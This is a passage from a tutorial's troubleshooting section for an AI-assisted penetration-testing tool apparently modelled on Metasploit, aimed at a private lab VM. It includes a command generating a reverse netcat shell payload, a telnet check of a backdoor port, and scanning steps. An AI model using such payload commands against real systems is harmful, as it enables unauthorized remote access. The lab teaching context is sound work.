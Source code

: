 ### Session Connectivity Issues

**Problem**: Can't establish or maintain sessions
```
[-] Session connection failed
```

**Solutions**:
```bash
# Check firewall settings
iptables -L

# Verify network connectivity
ping 192.168.56.101
telnet 192.168.56.101 6200

# Try different payload types
msf-ai> payload generate cmd/unix/reverse_netcat --lhost 192.168.56.1 --lport 4444
```

### Permission Issues

**Problem**: Insufficient privileges for operations
```
Error: Permission denied
```

**Solutions**:
```bash
# Run with appropriate privileges
sudo python app.py --mode cli

# Use alternative scan techniques
msf-ai> scan 192.168.56.101 --technique connect --no-ping

# Configure capabilities
sudo setcap cap_net_raw+ep /usr/bin/nmap
```

## Next Steps

After completing this tutorial:

1. **Practice More**: Set up additional vulnerable VMs
2. **Learn Advanced Techniques**: Try the [Advanced Exploitation Tutorial](advanced-exploitation.md)
3. **Study AI Features**: Read the [AI Analysis Tutorial](ai-analysis.md)
4. **Automation**: Learn [Custom Automation](automation.md)
5. **Real Scenarios**: Practice on authorized targets with permission

## Additional Resources

### Vulnerable Lab Environments
